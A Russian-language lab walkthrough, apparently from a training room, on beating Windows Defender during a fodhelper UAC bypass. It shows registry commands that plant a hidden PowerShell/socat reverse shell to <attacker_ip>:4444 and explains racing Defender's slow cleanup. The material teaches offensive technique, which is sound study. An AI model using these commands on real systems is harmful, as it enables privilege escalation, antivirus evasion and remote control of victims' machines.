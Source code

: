 ## Задание 5
#### Защитник Windows
Для простоты, на машине, которую мы атакуем, отключен Защитник Windows. Но что бы произошло, если бы он был включен?

Сначала, используя подключение через графический интерфейс, перейдите на рабочий стол и дважды щелкните следующий 
значок, чтобы включить Защитник Windows:

Теперь попробуйте снова эксплуатировать fodhelper через бэкдор-соединение и посмотрите, что произойдет в графическом 
интерфейсе сервера. Так же, как вы меняете(default)значение 
в `HKCU\Software\Classes\ms-settings\Shell\Open\command` для вставки команды обратной оболочки появится уведомление 
Защитника Windows: 
Нажав на уведомление, мы можем проверить подробности оповещения, в которых упоминается попытка обхода UAC путем 
изменения значения реестра:

Если вы запросите соответствующее значение в реестре, вы заметите, что оно было стерто:

Командная строка
```commandline
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
```

Хотя на данный момент может показаться, что наш эксплойт не будет работать при включенном Защитнике Windows, 
проверьте, что произойдет, если вы выполните те же команды, но с небольшим изменением (обязательно замените свой 
IP-адрес, где это необходимо):

Командная строка
```commandline
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```

Мы добавили быстрый запрос к проблемному значению реестра сразу после установки его в команду, необходимую для нашей 
обратной оболочки. Удивительно, но запрос выводит нашу команду нетронутой.  Мы все равно получаем оповещение от 
Защитника Windows, и через секунду проблемное значение реестра удаляется, как и ожидалось. Похоже, Защитнику Windows 
требуется некоторое время, чтобы предпринять действия по нашему эксплойту, поэтому давайте установим обратный 
прослушиватель на машине нашего злоумышленника:

